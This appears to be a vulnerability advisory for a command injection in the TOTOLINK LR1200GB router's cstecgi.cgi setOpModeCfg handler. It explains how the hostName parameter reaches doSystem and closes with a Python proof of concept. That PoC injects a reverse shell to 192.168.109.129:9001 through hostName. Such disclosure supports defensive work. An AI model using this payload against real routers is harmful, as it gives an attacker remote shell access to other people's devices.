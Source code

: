 # TOTOLINK LR1200GB(V9.1.0u.6619_B20230130) router has command injection vulnerability
## Information

Vendor：http://totolink.net/

Firmware：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/233/ids/36.html

## Affected Version
V9.1.0u.6619_B20230130
## Vulnerability Analysis
The following images displays the code for a command injection vulnerability in the `setOpModeCfg` handler function of  `cstecgi.cgi`. The call chain is `sub_42eac8` -> `sub_42635c` -> `sub_4250b8`.Here's the constraints:
1. the value of `opmode` parameter !="gw"
2. the value of `proto` parameter !=6

At the end, the value of the `hostName` parameter will be spliced ​​into the `echo '%s' > /pro....` and be excuted by `doSystem` function, which allows an attacker to excute any command.

`sub_42eac8` func:
![code3](./code3.png)
![code4](./code4.png)

`sub_42635c` func:
![code5](./code5.png)

`proto` parameter in `sub_4250b8` func 
![code2](./code2.png)

`hostName` parameter in `sub_4250b8` func , 
![code1](./code.png)
## POC
```python
import requests

url = "http://192.168.0.1/cgi-bin/cstecgi.cgi"

payload = {
    "opmode": "xxxx",
    "proto": "9",
    "hostName": "';sh -i >& /dev/tcp/192.168.109.129/9001 0>&1;#",
    "switchOpMode": "1",
    "topicurl": "setOpModeCfg",
    "token": "00000000000000000000000000000000"
}

requests.request("POST", url, data=payload)
```
![postman](postman.png)

